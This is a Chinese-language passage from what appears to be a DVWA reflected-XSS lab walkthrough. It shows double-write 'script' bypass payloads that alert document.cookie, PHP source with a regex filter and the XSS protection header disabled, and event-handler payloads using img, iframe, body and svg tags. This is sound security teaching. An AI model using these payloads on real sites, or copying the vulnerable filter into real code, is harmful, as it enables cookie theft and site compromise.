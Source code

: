 

双写绕过

```
<scrscriptipt>alert(document.cookie);</scrscriptipt>
```

```
<scr script ipt>alert(document.cookie);</scr script ipt>
```



#### 高级

标签绕过高级反射型XSS渗透测试环境的防护

```php
<?php
header ("X-XSS-Protection: 0"); // 明确禁用XSS保护头部
// Is there any input?
if( array_key_exists( "name", $_GET ) && $_GET[ 'name' ] != NULL ) {
    // Get input
    $name = preg_replace( '/<(.*)s(.*)c(.*)r(.*)i(.*)p(.*)t/i', '', $_GET[ 'name' ] ); // 核心防护：正则替换 'script'
    // Feedback for end user
    echo "<pre>Hello {$name}</pre>"; // 反射点：直接将处理后的 $name 输出到 HTML
}
?>
```

这个正则表达式旨在移除`script`关键字。我们的目标是找到一种方式来执行JavaScript，但又不包含完整的`script`关键字。



利用不包含 "script" 关键字的事件处理函数

`<img>` 标签 + `onerror` 事件

```
<img src=x onerror=alert(1)>
```



`<iframe>` 标签 + onload 事件

```
<iframe onload=alert(1)>
```



`<body>` 标签 + `onload` 事件 (如果可以控制整个body)

```
<body onload=alert(1)>
```



`<svg>` 标签 + onload 事件

```
<svg onload=alert(1)>
```
